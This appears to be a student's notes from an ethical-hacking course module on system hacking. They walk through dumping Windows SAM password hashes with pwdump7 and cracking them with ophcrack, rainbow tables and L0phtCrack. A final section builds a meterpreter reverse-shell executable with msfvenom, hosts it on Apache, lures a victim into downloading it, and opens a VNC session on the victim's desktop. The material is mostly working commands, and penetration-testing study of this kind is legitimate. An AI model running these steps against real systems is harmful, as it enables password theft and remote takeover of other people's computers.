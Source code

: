 # Module 06 - System Hacking #

## Dumping and Cracking SAM Hashes to Extract Plaintext Passwords ##
1. ``` cmd ``` > Run as Administrator
2. ``` wmic useraccount get name,sid ```
   * Administrator -> XXX-500
   * Guest -> XXX-501
  
### pwdump7 ###

``` PwDump7.exe > hashes.txt ``` - To dump the result into a file

Then, if any user account names are missing, complete them looking at the result of the '*wmic*' command.
 
### ophcrack ###

1. Load > From a PWDUMP file > Select the 'hashes.txt' file
2. Tables > Select the table 'Vista free' > Set the table directory to '_ophcrack\tables_vista_free\_'
3. Crack

- - - -

## Creating and Using Rainbow Tables ##

### Winrtgen ###
1. Add Table
   * Hash -> 'ntlm'
   * Min Len -> 4
   * Max Len -> 6
   * Chain Count -> 4000000
   * Charset -> 'loweralpha' (Depends on the password)
2. 'Ok' -> It will generate the Rainbow Table

### Rainbow Crack ###
1. File > Load NTLM Hashes from PWDUMP File... > Select the 'hashes.txt' file
2. Rainbow Table > Search Rainbow Table... > Select the generated Rainbow Table


- - - -

## Auditing System Passwords ##

### L0phtCrack ###
1. Target System Type: Windows(/Unix-Like)
2. Windows Import: Remote Machine (Local Machine, File Generated by PwDump)
3. Windows Import from Remote Machine (SMB): Host - Use Specific User Credentials
4. Choose Audit Type: Strong Password Audit (Quick PA, Common PA, Thorough PA)


- - - -

## Exploiting Client Side Vulnerabilities and Establishing a VNC Session ##

### msfvenom ###
``` msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<Attacker Listener IP - Ex. 10.10.10.11> LPORT=<Attacker Open Listener Port - Ex. 444> -o <Output File - Ex. /root/Desktop/reverse-test.exe> ``` - Creating an exploit: Reverse TCP shell malicious _exe_ file

### Creating a Directory to Share with the Victim ###
1. ``` mkdir /var/www/html/share ```
2. ``` chmod -R 755 /var/www/html/share ```
3. ``` chown -R www-data:www-data /var/www/html/share ```
4. ``` mv /root/Desktop/reverse-test.exe /var/www/html/share ``` - Moving the malicious file to the shared folder

### Starting the Apache Server ###
``` service apache2 start ```

### Metasploit ###
``` msfconsole ```

Steps to set up a listener:
1. ``` use multi/handler ```
2. ``` set payload windows/meterpreter/reverse_tcp ```
3. ``` set LHOST <Attacker Listener IP> ```
4. ``` set LPORT <Attacker Listener Port> ```
5. ``` exploit ```

### Luring the Victim ###
Now, the attacker should lure the victim to access: ```http://<Attacker IP>/share``` and download the ```reverse-test.exe``` file.

### Metasploit ###
If Meterpreter does not start automatically interacting with the victim, type: ``` sessions -i 1 ```.

1. ``` run vnc ``` - To start a VNC session with the victim
2. The victim's Desktop screen will appear






